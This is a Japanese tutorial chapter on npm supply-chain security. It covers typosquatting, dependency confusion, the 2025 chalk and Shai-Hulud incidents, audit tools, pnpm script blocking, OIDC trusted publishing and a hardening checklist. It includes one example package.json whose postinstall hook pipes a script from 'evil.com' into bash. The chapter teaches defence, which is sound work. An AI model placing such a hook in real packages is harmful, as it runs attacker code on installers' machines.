



:::message
**この章を読むとできるようになること**
- npmエコシステムに存在する攻撃ベクタを体系的に理解できる
- 2025年に実際に起きたサプライチェーン攻撃の手口と対策を説明できる
- npm audit / yarn audit / pnpm audit の違いと限界を判断できる
- OIDC Trusted Publishingの仕組みを理解し、トークンレスpublishを設定できる
- 自分のプロジェクトに実践的なセキュリティ対策を導入できる
:::

## 9.1 npmエコシステムにおけるセキュリティリスクの全体像

npmレジストリには300万を超えるパッケージが公開されています。この巨大なエコシステムは、開発の生産性を劇的に向上させる一方で、攻撃者にとっても魅力的な標的です。

主要な攻撃ベクタを整理しましょう。



### Typosquatting

`lodash` を `l0dash` や `lodahs` として公開する手口です。`npm install` のタイプミスを狙い、悪意あるコードを実行させます。npmレジストリ側も検知機構を強化していますが、完全には防げていません。

### Dependency Confusion

あなたの会社が `@mycompany/auth` という社内パッケージを使っているとします。攻撃者が公開npmレジストリに `@mycompany/auth` （スコープなしの `mycompany-auth` として）を公開すると、設定によっては公開版が優先されてインストールされてしまいます。

```bash
# .npmrc で社内レジストリを明示的に設定
@mycompany:registry=https://npm.internal.company.com/
```

### 悪意あるpostinstallスクリプト

`npm install` 時に自動実行される `postinstall` スクリプトは、任意のコードを実行できます。正規の用途（ネイティブモジュールのコンパイル等）もありますが、攻撃にも悪用されます。

```json
// 悪意あるpackage.jsonの例（簡略化）
{
  "scripts": {
    "postinstall": "curl https://evil.com/steal.sh | bash"
  }
}
```

## 9.2 実例: 2025年9月 npmサプライチェーン攻撃

2025年9月、npmエコシステム史上最大級のサプライチェーン攻撃が発生しました。この事件を詳しく見ることで、現代の攻撃手法と防御の実態を理解できます。

### 何が起きたのか

**chalk**、**debug**、**ansi-styles**など18のメジャーパッケージ（合計で週間26億ダウンロード超）が侵害されました。攻撃者は `npmjs.help` ドメインからのフィッシングメールにより、メンテナ qix（Josh Junon）のnpmアカウント認証情報を奪取。奪ったアカウントで悪意あるバージョン（暗号通貨窃取を目的としたブラウザスクリプトを含む）をpublishしました。

:::message
**参考情報源**: [Vercel公式レスポンス](https://vercel.com/blog/critical-npm-supply-chain-attack-response-september-8-2025)、[Semgrep Security Alert](https://semgrep.dev/blog/2025/chalk-debug-and-color-on-npm-compromised-in-new-supply-chain-attack/)
:::

### 攻撃の時系列

```
13:16 UTC  攻撃者が悪意あるバージョンをpublish開始（chalk等）
〜15:20 UTC  コミュニティが異常を検知
〜17:00 UTC  侵害されたバージョンの除去が完了（publish開始から約2時間）
以降       影響を受けたアカウントのトークンを無効化、セキュリティアドバイザリ公開
```

注目すべきは、**publish開始から除去まで約2時間**で完了した点です。しかし、その間にダウンロードされたパッケージは推定数十万件に上ります。

### Shai-Hulud 2.0: 自己増殖型ワーム（2025年11月）

chalk事件の約2.5ヶ月後、2025年11月24日に **Shai-Hulud 2.0** が発見されました。こちらはchalk事件とは異なる手法を用いた、さらに高度な攻撃です。`preinstall`スクリプトを利用してnpmトークンやGitHubトークンを窃取し、窃取したトークンで別のnpmパッケージに悪意あるコードを自動注入するという**自己増殖型の攻撃**でした。



この攻撃では攻撃者が25,000以上の悪意あるリポジトリを作成し、開発者を誘導しようとしました。

:::message
**参考情報源**: [Palo Alto Unit42](https://unit42.paloaltonetworks.com/npm-supply-chain-attack/)、[Wiz Blog](https://www.wiz.io/blog/shai-hulud-2-0-ongoing-supply-chain-attack)
:::

## 9.3 各パッケージマネージャのセキュリティ機能

### npm audit / yarn audit / pnpm audit

3つのツールはいずれも `audit` コマンドで既知の脆弱性をチェックできますが、機能には差があります。

```bash
# npm: GitHub Advisory Databaseを使用
$ npm audit
# 修正可能なものを自動適用
$ npm audit fix

# yarn berry: npm auditと同等
$ yarn npm audit

# pnpm: npm auditのラッパー
$ pnpm audit
# pnpmではaudit fixは非対応 → overridesで手動対処
```

**重要な制約**: `audit` は**既知の脆弱性**しか検出できません。ゼロデイ攻撃や、まだ報告されていない悪意あるパッケージは検出対象外です。auditは必要条件ですが、十分条件ではありません。

### overridesによる脆弱性パッチの強制

依存の依存（間接依存）に脆弱性がある場合、直接パッケージを更新できないことがあります。`overrides`（npm）、`resolutions`（yarn）、`pnpm.overrides`（pnpm）で強制的にバージョンを上書きできます。

```json
// npm の overrides
{
  "overrides": {
    "vulnerable-pkg": ">=2.0.1"
  }
}

// yarn の resolutions
{
  "resolutions": {
    "vulnerable-pkg": ">=2.0.1"
  }
}

// pnpm の overrides
{
  "pnpm": {
    "overrides": {
      "vulnerable-pkg": ">=2.0.1"
    }
  }
}
```

### pnpm v10: postinstallスクリプトのデフォルト無効化

pnpm v10（2025年リリース）では、**信頼されていないパッケージのpostinstallスクリプトがデフォルトで実行されなくなりました**。これはセキュリティにおける大きな前進です。

```json
// package.json の pnpm フィールドで信頼するパッケージを列挙（pnpm v10+）
{
  "pnpm": {
    "onlyBuiltDependencies": ["esbuild", "sharp", "bcrypt"]
  }
}
// pnpm v10.26以降は allowBuilds を使用
// { "pnpm": { "allowBuilds": ["esbuild", "sharp", "bcrypt"] } }
```

postinstallの実行が必要なパッケージ（ネイティブバイナリのコンパイルが必要なもの等）は、明示的に信頼リストに追加する必要があります。

### minimumReleaseAge

pnpmが先行して実装し、npmやyarnでも対応が進んでいる **minimumReleaseAge** は、「公開されてからN日以上経過したバージョンのみインストールする」という設定です。

```ini
# .npmrc
minimum-release-age=7d
```

攻撃者が悪意あるバージョンをpublishしても、7日間のバッファがあれば検知・除去される可能性が高くなります。前述の2025年9月の攻撃は2時間で除去されており、この設定があれば影響を受けなかったことになります。

## 9.4 OIDC Trusted Publishing: トークンレスなパッケージ公開

### npm Classic Token廃止

npmは2025年12月に **Classic Token** を廃止しました。Classic Tokenは一度生成すると無期限で使えるトークンで、漏洩時のリスクが高いものでした。

代わりに推奨されるのが **OIDC Trusted Publishing** です。これはGitHub ActionsやGitLab CIから**トークンを使わずに**npmパッケージをpublishする仕組みです。

### 仕組み



従来はnpmトークンをGitHub Secretsに保存していましたが、OIDC Trusted Publishingではトークン自体が存在しません。GitHub Actionsのワークフローが実行されるたびに、短命のIDトークンが生成され、npmがそのトークンの署名を検証してpublishを許可します。

### GitHub Actionsでの設定

```yaml
# .github/workflows/publish.yml
name: Publish
on:
  release:
    types: [published]

jobs:
  publish:
    runs-on: ubuntu-latest
    permissions:
      id-token: write  # OIDC Trusted Publishing に必要
      contents: read
    steps:
      - uses: actions/checkout@v4
      - uses: actions/setup-node@v4
        with:
          node-version: 22
          registry-url: https://registry.npmjs.org
      - run: npm ci
      - run: npm publish --provenance
        # --provenance: SLSA provenance を付与（ビルド元の証明）
```

`--provenance` フラグを付けると、パッケージに**SLSA provenance**（ビルド元リポジトリ・コミットの証明）が付与されます。npmのパッケージページに緑のバッジが表示され、利用者がビルド元を検証できるようになります。

## 9.5 実践的なセキュリティ対策チェックリスト

自分のプロジェクトに今日から適用できる対策をまとめます。

### .npmrc の推奨設定

```ini
# postinstallスクリプトのデフォルト無効化（pnpm v10+自動、npm/yarnは手動）
ignore-scripts=true

# auditの警告レベル
audit-level=moderate

# 新しすぎるパッケージを避ける
minimum-release-age=3d

# lockfileがない場合にインストールを拒否（CI環境向け）
# package-lock=true  # npm
# frozen-lockfile=true  # pnpm
```

`ignore-scripts=true` を設定した場合、ネイティブモジュールのビルドが必要なパッケージ（`sharp`、`bcrypt`等）はインストール後に手動でビルドする必要があります。

```bash
# ignore-scripts=true の状態でネイティブモジュールをビルド
$ npm rebuild sharp
```

### サプライチェーン監視ツール

`npm audit` だけでは不十分なケースをカバーするツールがあります。

```bash
# Socket: パッケージの挙動を静的解析
$ npx socket optimize  # lockfileの最適化と安全性チェック

# npm query: 危険なパッケージを検索（npm v8.16+）
$ npm query ":attr(scripts, [postinstall])"
# → postinstallスクリプトを持つパッケージ一覧
```

### CIでのlockfile改ざん検知

```yaml
# GitHub Actions での lockfile 検証
- name: Verify lockfile integrity
  run: |
    # npm
    npm ci  # lockfileと一致しなければエラー

    # pnpm
    pnpm install --frozen-lockfile

    # yarn
    yarn install --immutable
```

`npm ci`（clean install）は `npm install` と異なり、lockfileの内容を**厳密に再現**します。lockfileとpackage.jsonの間に不整合があればエラーで停止するため、CI環境では必ず `npm ci` を使ってください。

### 依存の定期監査

```bash
# 直接依存のライセンスチェック
$ npx license-checker --summary

# 依存ツリーの深さを確認（深すぎる依存チェーンはリスク）
$ npm ls --all --depth=5

# 更新可能なパッケージの確認
$ npm outdated
```

## 章末クイズ

**Q1**: Dependency Confusion攻撃とは何ですか？ `.npmrc` でどう防止できますか？

:::details 答え
社内で使っているプライベートパッケージと同名のパッケージを公開npmレジストリに登録し、設定によっては公開版が優先されてインストールさせる攻撃です。`.npmrc` でスコープごとのレジストリを明示的に設定することで防止できます: `@mycompany:registry=https://npm.internal.company.com/`
:::

**Q2**: `minimumReleaseAge=7d` を設定すると、2025年9月のchalk事件の影響を受けなかった理由は何ですか？

:::details 答え
攻撃者がpublishした悪意あるバージョンは公開から約2時間で除去されました。`minimumReleaseAge=7d` の設定があれば、公開後7日未満のバージョンはインストール対象にならないため、除去済みの悪意あるバージョンが選ばれることはありません。
:::

**Q3**: OIDC Trusted Publishingが従来のnpmトークンより安全な理由を2つ挙げてください。

:::details 答え
1. **トークンが存在しない**: GitHub Secretsに長期間保存されるトークンがないため、漏洩リスクがゼロになります。IDトークンはワークフロー実行ごとに短命で生成されます。2. **ビルド元の検証**: npmがOIDCプロバイダを通じてリポジトリとブランチを検証するため、正規のリポジトリ・ブランチからのpublishのみが許可されます。攻撃者がフォークからpublishすることはできません。
:::
